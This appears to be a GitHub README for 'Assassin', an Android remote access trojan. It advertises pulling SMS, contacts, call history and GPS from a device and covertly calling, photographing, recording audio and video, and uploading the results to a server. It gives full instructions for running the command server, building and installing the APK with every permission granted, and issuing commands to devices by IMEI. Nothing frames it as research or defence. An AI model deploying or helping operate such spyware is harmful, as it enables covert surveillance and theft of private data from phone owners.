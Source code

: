 # Assassin one of the  best Android RAT 
![assassin](https://cdn-std.dprcdn.net/files/acc_737120/k4ywpL)
---- 
- beta 1.0.0
- adapter android Lollipop-Pie
- commit issues to me 

# Construction
![assembleApk](https://cdn-std.dprcdn.net/files/acc_737120/1P2KVt)
# Features
- get Sms_List
- send Sms to destinationAddress
- get Calling_History
- get GPS
- get Contacts_List
---- 
#### something that u can do in background
- call someone  
- take a photo then send to server 
- record audio then send to server
- record video then send to server
</br>of course the duration decided by yourself

# Basement/Environment
- Gradle 
- JDK1.8
- AndroidSdk 
- node.js
- npm
# Usage
#### 1.Start up The Server
```
1. git clone git@github.com:honglvt/TalentRAT.git / or https
2. cd the project path
3. cd Server
4. npm install
5. npm start
```
now you can see the terminal show ASSASSIN
----
#### 2.Build the Android apk 
1. confrim that you have prepare the env for building the app
2. connect the android device  to ur PC
3. enable the develop mode on ur android device
4. edit the socket address with</br>
```
use ifconfig to get server IP Address
cd project
```
5. on some rom you should also  enable the adb to install the apk
6. if you are not a developer you can install the apk yourself
- post the .apk to your device such as email or other way
- then install the .apk on folder
----
#### 3.Intasll apk 
```
1. cd the project path 
2. ./assembleApk.sh debug mac ipAddress  // you can choose the arg debug/release
3. ./installNewestApk.sh 
4. open the apk on ur device
5. the most important is that  you should grant all of the permissions on the device
```
# Instruction to client
```
1. cd /Server
2. which node
3. vim ./assassin.js  replace #! /usr/local/bin/node with your own position
4. chmod 777 ./assassin.js
5. ./assassin.js -h
```
```
$ ./assassin.js -h                                                 ‹ruby-2.6.0›
Usage: assassin [options]

Options:
  -V, --version             output the version number
  -a,--assassin <assassin>  select a command post to the clients if you choose the shadow you should input the cmd -t to choose a type between pic/audio/video [sms,contacts,call,gps,shadow] (default: "sms")
  -C,--Clients              show every client info
  -d,--address <address>    input a phone num who you want to send a msg
  -m,--msg <msg>            you should write the msg content, if your command is sms
  -t,--type <type>          select a type between pic/audio/video and you should input the -l to choose the camera lens [pic,audio,video]
  -c,--client <client>      select a client to post the command
  -l,--lens <lens>          which camera lens that you want to open [0,1]
  -h, --help                output usage information
```
### exemples
| cmd        | -a     |
| ---------- | :-----------:  | 
| description| select the command between [sms,contacts,call,gps,shadow]  if you choose the shadow you should also use -t to choose a type between pic/audio/video     | 
|  example   | ‘’./assassin.js -a sms‘’  ‘’ ./assassin.js -a shadow -t pic ‘’   | 
|  result   | ERROR:you should input a type with -c to choose a client that you want to send cmd    | 
----

| cmd        | -C     |
| ---------- | :-----------:  | 
| description| show every client info    | 
|  example   | ‘’./assassin.js -C ‘’   | 
|  result   | {IMEI:9525238415950202,brand:Nokia,model:CAL-20,version:9.0}   | 
----

| cmd        | -c     |
| ---------- | :-----------:  | 
| description| select a client with its IMEI to post the command    | 
|  example   | ‘’./assassin.js -a sms -c  9525238415950202 ‘’   | 
|  result   | { command: 'send_sms_list', IMEI: '184859203' }  | 
----

# Prompt

- keep node server alive when you send a command
- cmd with ./assassin.js will return a Json data  you can do whatever with the response 
- if you want to get a pic or video you should type the cmd as follow:
  - ./assassin.js -a shadow -c 123456 -t pic -l 0
  - then you can find the pic has saved on the */project/Server/public/images/xxxx.jpeg'
  - the same with other shadow
- the duration in recording video or audio decided by yourself

# Screen Shot
### server
![server](https://cdn-std.dprcdn.net/files/acc_737120/tKCGxc)
---
### assembleApk
![assembleApk](https://cdn-std.dprcdn.net/files/acc_737120/BtN0Eb)
---
### installApk
![installApk](https://cdn-std.dprcdn.net/files/acc_737120/qzZ6yC)
---
### client connect to server
![connect](https://cdn-std.dprcdn.net/files/acc_737120/7AfwLH)
---
### executeCmd
![executeCmd](https://cdn-std.dprcdn.net/files/acc_737120/ot6gOq)
